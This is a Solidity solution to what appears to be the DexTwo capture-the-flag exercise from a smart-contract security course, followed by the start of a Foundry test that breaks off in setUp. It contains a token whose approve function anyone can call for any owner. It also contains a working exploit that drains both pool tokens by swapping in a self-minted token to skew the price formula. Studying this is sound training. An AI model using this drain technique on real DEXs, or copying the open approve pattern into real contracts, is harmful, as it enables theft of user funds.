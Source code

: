 ```

contract SwappableTokenTwo is ERC20 {
    address private _dex;

    constructor(
        address dexInstance,
        string memory name,
        string memory symbol,
        uint256 initialSupply
    )
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}

contract Exploit {
    function exploit(DexTwo dexTwo, SwappableTokenTwo token1, SwappableTokenTwo token2) public {
        //create our own token with unlimited supply and approve DexTwo to spend
        SwappableTokenTwo exploitToken = new SwappableTokenTwo(address(dexTwo), "Exploit", "E", type(uint256).max);
        exploitToken.approve(address(this), address(dexTwo), type(uint256).max);

        //Send 100 Exploit tokens to DexTwo to manipulate balance of `from` token in `getSwapAmount`
        //When we swap 100 Exploit tokens for token1, we will get 100 * token1.balance / exploitToken.balance
        //which is 100 * 100 / 100 = 100 of token1 swapped out to Exploit contract
        exploitToken.transfer(address(dexTwo), 100);
        dexTwo.swap(address(exploitToken), address(token1), 100);

        //At this point, DexTwo has 200 Exploit tokens and 100 token2.
        //We can swap 200 Exploit tokens for token2, and we will get 200 * token2.balance / exploitToken.balance
        //which is 200 * 100 / 200 = 100 of token2 swapped out to Exploit contract
        dexTwo.swap(address(exploitToken), address(token2), 200);
    }
}
```
- `src/Week10-11/DexTwo.t.sol`
```
contract DexTwoTest is Test {
    DexTwo dexTwoContract;
    SwappableTokenTwo token1;
    SwappableTokenTwo token2;

    Exploit exploitContract;
    address attackerWallet;

    function setUp() public {
        //Deploy
        dexTwoContract = new DexTwo();
        token1 = new SwappableTokenTwo(address(dexTwoContract), "token1", "tk1", 110);
        token2 = new SwappableTokenTwo(address(dexTwoContract), "token2", "tk2", 110);
        //Set up DexTwo
        dexTwoContract.setTokens(address(token1), address(token2));
        dexTwoContract.approve(address(dexTwoContract), 100);
```